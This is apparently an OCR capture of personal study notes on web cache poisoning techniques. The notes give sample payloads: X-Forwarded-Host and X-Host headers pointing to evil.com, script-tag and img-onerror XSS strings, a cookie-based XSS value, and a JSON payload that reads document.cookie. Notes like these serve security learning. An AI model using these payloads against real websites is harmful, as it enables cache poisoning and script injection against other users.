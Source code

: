 
25  >>>  Web cache deception 


25(1) >>> Web cache poisoning
         
      ::;::>>>>  Design flaws:::

                ---> Using web cache poisoning to deliver an XSS attack

                     X-Forwarded-Host: a."><script>alert(1)</script>"
                         
                ---> Using web cache poisoning to exploit unsafe handling of resource imports
          
                    X-Forwarded-Host: evil-user.net

        ---> Using web cache poisoning to exploit cookie-handling vulnerabilities.Cookies are often used to dynamically
                generate content in a response



           Place a suitable XSS payload in the fehost cookie, for example:
           fehost=someString"-alert(1)-"someString

        ---> Using multiple headers to exploit web cache poisoning vulnerabilities

                    X-Forwarded-Host: evil.com
                        X-Forwarded-Proto: nohttps


                ---> Exploiting responses that expose too much information. 
                     One such example is when responses contain information about how often the cache is purged or how old the
                         currently cached response is: 
                         
                HTTP/1.1 200 OK
                Via: 1.1 varnish-v4
                Age: 174
                Cache-Control: public, max-age=1800

        ---> Targeted web cache poisoning using an unknown header

                Find header from param miner extension 

                  X-Host: evil.com
                  
                ---> Web cache poisoning to exploit a DOM vulnerability via a cache with strict cacheability criteria 

                  - Use Param Miner to identify that the X-Forwarded-Host header is supported. 
                  - Add the header Access-Control-Allow-Origin: * to your evil site for cors 

          - payload on evil server 
             
                     {
                     "country": "<img src=1 onerror=alert(document.cookie) />"
                     }                   
                   
                   
                   
                   
                  >>>Implementation flaws>>
                  